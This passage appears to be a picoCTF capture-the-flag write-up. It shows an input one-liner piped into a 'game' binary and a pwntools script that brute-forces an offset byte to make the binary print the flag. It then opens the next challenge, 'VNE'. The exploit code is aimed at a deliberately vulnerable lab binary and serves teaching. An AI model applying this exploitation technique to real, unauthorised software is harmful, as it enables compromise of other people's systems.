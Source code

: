 ```
python2 -c "print 'l]' + 'wwww' + 'd'*47 + 'wp'"  | ./game
```

Trying that gets me the flag

![image](https://user-images.githubusercontent.com/113513376/229069995-416453a9-a863-4446-a36c-edace6d9d8d9.png)

But using remotely doesn't work
![image](https://user-images.githubusercontent.com/113513376/229070520-29780a36-a979-455d-8594-67b2776e4f09.png)

After asking in discord people says the binary on the remote is different from the one given (at least its offset)

That made me then make a brute force script on the offset 

```
#!/usr/bin/env python3

from pwn import *
import string
import warnings

context.log_level = 'warning'
warnings.filterwarnings('ignore')

for i in string.printable:
    #io = remote('saturn.picoctf.net', 52597)
    io = process('./game')
    io.sendline('l' + i)
    io.sendline(b'w' * 4)
    io.sendline(b'd' * 47)
    io.sendline(b'wp')

    output = io.recvall()
    if b'picoCTF' in output:
        print(f"offset found {i}")
        flag = output.decode('utf-8')
        list = flag.split()
        print(list[-1])
        break
```

Running it gives the flag
![image](https://user-images.githubusercontent.com/113513376/229084331-0ed82734-7732-4455-b0f1-3e3ea2e3291b.png)


<h3> VNE </h3>


![image](https://user-images.githubusercontent.com/113513376/228703179-7349a3e6-6c9a-48e8-b2a5-c6ec27cec495.png)

After connecting to the ssh instance it shows this binary file

![image](https://user-images.githubusercontent.com/113513376/229088006-25f77194-f7d7-4b2c-9a9c-6fd7a2ff5f7a.png)
